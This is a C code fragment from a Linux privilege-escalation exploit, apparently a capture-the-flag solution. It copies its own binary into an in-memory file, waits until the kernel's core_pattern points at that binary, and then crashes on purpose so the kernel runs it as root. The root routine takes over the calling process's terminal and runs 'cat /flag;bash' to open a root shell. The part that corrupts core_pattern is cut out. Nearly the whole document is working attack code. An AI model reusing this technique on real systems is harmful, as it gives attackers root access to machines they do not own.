```cpp
void crash(char *cmd)
{
	int memfd = memfd_create("", 0);
	SYSCHK(sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff));
	dup2(memfd, 666);
	close(memfd);
	while (check_core() == 0)
		sleep(1);
	puts("Root shell !!");
	/* Trigger program crash and cause kernel to executes program from core_pattern which is our "root" binary */
	*(size_t *)0 = 0;
}

void root(char *buf)
{
	int pid = strtoull(buf, 0, 10);
	char path[0x100];
	printf("run root()\n");
	// fix stdin, stdout, stderr
	sprintf(path, "/proc/%d/ns/net", pid);
	int pfd = syscall(SYS_pidfd_open, pid, 0);
	int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
	int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
	int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
	dup2(stdinfd, 0);
	dup2(stdoutfd, 1);
	dup2(stderrfd, 2);
	// just cat the flag
	system("cat /flag;bash");
}

int main(int argc, void *argv[])
{	

	if (argc > 1)
	{
		printf("triggered from core_pattern\n");
		root(argv[1]);
		exit(0);
	}

    [...]
}
```
